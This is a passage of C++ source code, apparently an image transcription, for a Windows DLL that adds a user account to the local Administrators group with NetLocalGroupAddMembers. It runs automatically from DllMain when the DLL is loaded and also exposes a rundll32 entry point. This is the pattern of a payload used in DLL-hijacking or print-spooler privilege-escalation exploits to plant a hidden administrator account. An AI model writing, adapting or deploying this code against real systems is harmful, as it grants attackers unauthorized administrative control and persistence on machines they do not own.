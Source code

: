 ```C++
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif
__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif
// Command-line entry point.
int main()
{
```